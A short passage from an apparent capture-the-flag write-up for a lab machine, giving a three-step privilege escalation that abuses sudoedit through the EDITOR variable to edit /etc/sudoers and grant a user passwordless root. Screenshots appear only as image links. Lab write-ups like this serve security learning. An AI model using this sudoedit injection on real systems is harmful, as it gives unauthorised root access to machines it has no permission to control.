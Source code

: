 **POC**

For this, we need to do the following:

```ad-hint

# STEP BY STEP

1. export EDITOR="nano -- /etc/sudoers"
2. sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
3. web ALL=(ALL) NOPASSWD: ALL
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162520.png)

If we did everything correctly, we are now able to run sudo as web in everything:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162632.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162646.png)


```

And just like that CTF is done

**FLAGS**

![](gitbook/cybersecurity/images/Pasted%20image%2020241106164116.png)

Gg!
